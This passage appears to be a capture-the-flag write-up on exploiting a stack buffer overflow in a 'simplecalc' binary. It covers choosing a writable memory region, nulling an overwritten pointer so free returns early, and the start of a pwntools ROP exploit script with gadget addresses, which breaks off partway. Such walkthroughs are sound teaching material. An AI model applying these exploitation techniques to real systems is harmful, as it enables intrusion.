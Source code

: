 We see that the memory region that begins at `0x6c0000` and ends at `0x6c3000` looks like a good candidate. The permissions allow us to read and write to it. In addition to that it is mapped from the binary, and since there is no PIE the addresses will be the same every time (no infoleak needed). Looking a bit through the memory, `0x6c1000` looks like it's empty so we should be able to write to it without messing ip anything (although we could be wrong with that).

The second thing we need to worry about deals with what we are overflowing on the stack.

```
  void *calculations;
  undefined vulnBuf [40];
  int calcChoice;
  int numberCalcs;
  int i;
```

We see that between `vulnBuf` and the bottom of the stack (where the return address resides) is the pointer `calculations`. This will get overwritten as part of the overflow. This is a problem since this address is freed prior to our code being executed:

```
                memcpy(vulnBuf,calculations,(long)(numberCalcs << 2));
                free(calculations);
                return 0;
```

However looking at the source code for free tells us something extremely helpful in this instance (I found it here: https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#free ):
```
__libc_free (void *mem)
{
  mstate ar_ptr;
  mchunkptr p;                          /* chunk corresponding to mem */
  void (*hook) (void *, const void *)
    = atomic_forced_read (__free_hook);
  if (__builtin_expect (hook != NULL, 0))
    {
      (*hook)(mem, RETURN_ADDRESS (0));
      return;
    }
  if (mem == 0)                              /* free(0) has no effect */
    return;
```

We can see here that if the argument we pass to free is a null pointer (`0x0`) then it just returns. Since the function writing the data for the overflow is `memcpy`, we can write null bytes. So if we just fill up the space between the start of our input and the return address with null bytes, we will be fine.

With that, we have everything we need to make the exploit. In the comments, you can find the exact ROP chain I used as well as what each part does. Also I wrote some helper functions which will write the values I want using addition:

```
from pwn import *

target = process('./simplecalc')
#gdb.attach(target, gdbscript = 'b *0x40154a')

target.recvuntil(b'calculations: ')
target.sendline(b'100')

# Establish our rop gadgets
popRax = 0x44db34
popRdi = 0x401b73
popRsi = 0x401c87
popRdx = 0x437a85

# 0x000000000044526e : mov qword ptr [rax], rdx ; ret
```